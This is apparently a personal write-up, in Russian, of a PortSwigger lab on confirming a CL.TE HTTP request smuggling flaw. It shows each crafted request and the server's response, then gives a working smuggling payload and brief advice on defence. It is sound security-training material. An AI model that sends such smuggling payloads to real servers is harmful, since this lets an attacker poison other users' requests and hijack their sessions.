


лаба https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
#### HTTP request smuggling, confirming a CL.TE vulnerability via differential responses
эта лаба про подтверждение уязвимости CL.TE методом дифференциальных ответов

задание:
переправить запрос на внутренний сервер так, чтобы последующий запрос на
`/` (веб-корень) вызывал ответ 404 "Не найдено"

---------

вот ори запрос 
```http
GET /post?postId=7 HTTP/2
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOsko
Sec-Ch-Ua: "Chromium";v="145", "Not:A-Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: ru-RU,ru;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9e0036033941e7805467d600ce002f.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```


сразу меняю протокол на  HTTP/1.1 и запрос также работает, отлично

далее убираю куки все - чтобы не мельтишили тут
меняю метод на POST
выключаю апдейт CL
добавляю
Content-Type: application/x-www-form-urlencoded
Content-length: 1
Transfer-Encoding: chunked

----------


запрос
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOsko
Content-Type: application/x-www-form-urlencoded
Content-length: 30
Transfer-Encoding: chunked

18

POST%20/post?postId=7555
```
ответ 400  "Invalid request"
но если неверно указать  не 18 а 19
то ответ 500
значит - сервер проверяет чанки и ловит ошибку
а ошибка 400 говрит что фронт слушает Content-length: 30

---------


классический запрос тест
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

16
abc
x

```
ответ 500 Server Error: Communication timed out

классический запрос тест
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
ответ 200 обычный ответ

согласно таблице - это подтверждает уязвимость CL.TE

то есть фронт случает CL
бек случает  TE

--------


делаю запрос
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 6
Transfer-Encoding: chunked

0

x
```
ответ 200 обычный
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=wqy0Cb5ERwQtjbssaZy2vPzRXshlRhH5; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 8259
---
далее html
```
то есть фронт пропустил все сразу
а сервер дошел до 0 и отдал обычный запрос мне
а вот X получается - что остался висеть в буфере на сервере

(но почему то тогда повторные запросы не склеиваются  с X? хз короче)

----


запрос
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 36
Transfer-Encoding: chunked

0

POST /post?postId=7333 HTTP/1.1
```
и вот первый ответ 200 получается

но на второй запрос тут ответ 400 "error":"Invalid request"

это уже заявка на победу

получается что фрон пропустил все
а бек получил всю эту кучу и на 0 нуле обрезал запрос
и часть
POST /post?postId=7333 HTTP/1.1  остется висеть в буфере? но в ответе вижу постоянно в обоих случаях `Connection: close`, что меня настораживает

-----
а! можно добавить перенос сроки! в самом конце!
исправил - но ответ везде тот же самый 
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
Connection: close
Content-Length: 27

{"error":"Invalid request"}
```

------

видимо - нужно добавить параметров в запрос
Host Cookie Content-Type ...

запрос
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 198
Transfer-Encoding: chunked

0

POST /post?postId=7333 HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded

```
ответ на повторный запрос
400 `{"error":"Duplicate header names are not allowed"}`

---
попробую сделать X-Ignore: X вместо всех кук тех

```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 49
Transfer-Encoding: chunked

0

POST /post?postId=7333 HTTP/1.1
X-Ignore: X

```
ответ
```http
HTTP/1.1 405 Method Not Allowed
Allow: GET
Content-Type: application/json; charset=utf-8
Set-Cookie: session=9D1Tmu9TY7I8FC7GIr9dRTnu3uCCbdeD; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 20

"Method Not Allowed"
```

405 это почти успех - так как это результат того что я смог испортить чужой запрос, и получил невалидный метот

-----
просто нужно не POST а GET поставить

и успех! лаба решена!


#### сработало:
```http
POST / HTTP/1.1
Host: 0a9e0036033941e7805467d600ce002f.web-security-academy.net
Cookie: session=W88nGusyDYkSLmumHTJMMB5YpGTCOs
Content-Type: application/x-www-form-urlencoded
Content-length: 47
Transfer-Encoding: chunked

0

GET /post?postId=7333 HTTP/1.1
X-Ignore: X

```
ответ 404 "Not Found" - как и требовалось в задаче - я просто запросил пост номер  postId=7333 а такого поста попросту нет 

------

вот ориг запрос который тоже возвращает 404 не найдено



-----
но я смог заставить другого чела автоматом выполнить мой запрос

это безобидный запрос
но также можно куку угонять например

---


####  лаба решена - вывод

уязвимость cl.te подтвержден

фронтенд не понимает transfer-encoding и доверяет content-length

бэкенд понимает чанки и обрезает запрос по нулевому чанку

из-за этого мой внутренний запрос get /post?postid=7333 повис в буфере и выполнился когда пришел следующий запрос

сервер вернул 404 потому что такого поста нет

это доказывает что я могу заставить другого пользователя выполнить любой мой запрос.

#### защита

нужно чтобы фронтенд и бэкенд одинаково определяли границы запросов

лучше использовать http/2 где нет такой путаницы (но есть и другие уязвимости)

если http/1.1 то настроить сервер так чтобы он отклонял любые запросы с противоречивыми заголовками content-length и transfer-encoding

также глушить все соединения где происходит рассогласовани

не забывать про регулярные обновления софта